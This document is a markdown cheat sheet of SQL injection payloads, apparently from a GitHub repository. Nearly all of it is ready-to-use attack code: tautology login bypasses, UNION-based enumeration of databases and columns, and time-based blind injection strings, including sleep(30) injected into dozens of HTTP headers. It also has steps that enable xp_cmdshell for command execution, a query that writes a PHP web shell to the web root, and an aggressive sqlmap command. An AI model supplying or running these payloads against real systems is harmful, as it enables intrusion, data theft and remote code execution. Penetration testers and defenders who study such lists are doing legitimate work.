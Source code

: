 # SQLi Payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

```
%22)%20AND%201337%3dBENCHMARK(5000000,MD5(0x774c5341))%20AND%20(%221337%22%20LIKE%20%221337
```

```
ADD THESE HEADERS TO YOUR WEB REQUESTS
 
If the SQL injection works, there will be a 30sec delay between the request and response!
 
HEADERS: 
Accept: "' or sleep(30)='"
Accept-Charset: "' or sleep(30)='"
Accept-Datetime: "' or sleep(30)='"
Accept-Encoding: "' or sleep(30)='"
Accept-Language: "' or sleep(30)='"
Authorization: "' or sleep(30)='"
Cache-Control: "' or sleep(30)='"
Connection: "' or sleep(30)='"
Content-Length: "' or sleep(30)='"
Content-MD5: "' or sleep(30)='"
Content-Type: "' or sleep(30)='"
Cookie: "' or sleep(30)='"
Date: "' or sleep(30)='"
Expect: "' or sleep(30)='"
Forwarded: "' or sleep(30)='"
From: "' or sleep(30)='"
If-Match: "' or sleep(30)='"
If-Modified-Since: "' or sleep(30)='"
If-None-Match: "' or sleep(30)='"
If-Range: "' or sleep(30)='"
If-Unmodified-Since: "' or sleep(30)='"
Max-Forwards: "' or sleep(30)='"
Origin: "' or sleep(30)='"
Pragma: "' or sleep(30)='"
Proxy-Authorization: "' or sleep(30)='"
Range: "' or sleep(30)='"
Referer: "' or sleep(30)='"
TE: "' or sleep(30)='"
Upgrade: "' or sleep(30)='"
User-Agent: "' or sleep(30)='"
Via: "' or sleep(30)='"
Warning: "' or sleep(30)='"
X-Client-IP: "' or sleep(30)='"
X-Remote-IP: "' or sleep(30)='"
X-Remote-Addr: "' or sleep(30)='"
X-Forwarded-For: "' or sleep(30)='"
X-Originating-IP: "' or sleep(30)='"
X-Host: "' or sleep(30)='"
X-Forwarded-Host: "' or sleep(30)='"
```

```
sqlmap -u "https://www[.]example[.]com/something/thing/filter-thing.php?vulnerable-param=123& another-param=123" --dbs --level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
```

```
--dbs --level=5 --risk=3 --random-agent --user-agent -v3 
```

```
--batch --threads=10 --dbs
```

